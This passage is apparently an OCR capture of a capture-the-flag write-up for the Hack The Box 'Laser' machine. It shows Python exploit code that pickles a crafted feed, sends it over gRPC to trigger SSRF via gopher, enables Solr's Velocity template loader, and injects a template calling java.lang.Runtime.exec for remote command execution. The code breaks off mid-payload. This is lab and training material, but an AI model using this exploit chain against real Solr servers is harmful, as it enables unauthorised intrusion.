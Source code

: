 ```python
    payload += '    "template.base.dir": "",\r\n'
    payload += '    "solr.resource.loader.enabled": "true",\r\n'
    payload += '    "params.resource.loader.enabled": "true"\r\n'
    payload += '  }\r\n'
    payload += '}'

    feed = base64.b64encode(pickle.dumps(json % (url + urllib.quote(headers % (len(payload), payload)))))

    print json % (url + urllib.quote(headers % (len(payload), payload)))

    with grpc.insecure_channel("10.10.10.201:9000") as channel:
        stub = service_pb2_grpc.PrintStub(channel)
        response = stub.Feed(service_pb2.Content(data=feed))
        return response


if __name__ == '__main__':

    trigger("gopher://localhost:8983//")

```

<div class="filename"><span>exploit.py</span></div>

```python
import grpc
import service_pb2
import service_pb2_grpc

import base64, pickle, sys, time, urllib

json = '''
{
    "version": "v1.0",
    "title": "Printer Feed",
    "home_page_url": "http://printer.laserinternal.htb/",
    "feed_url": "http://localhost:8983/solr/staging/%s",
    "items": [
        {
            "id": "2",
            "context_text": "Queue jobs"
        },
        {
            "id": "1",
            "context_text": "Failed items"
        }
    ]
}
'''

def exploit(cmd):

    command  = urllib.quote(cmd)

    payload  = ""
    payload += "select?q=1&&wt=velocity&v.template=custom&v.template.custom="
    payload += "%23set($x=%27%27)+"
    payload += "%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+"
    payload += "%23set($chr=$x.class.forName(%27java.lang.Character%27))+"
    payload += "%23set($str=$x.class.forName(%27java.lang.String%27))+"
    payload += "%23set($ex=$rt.getRuntime().exec(%27" + command
    payload += "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+"
```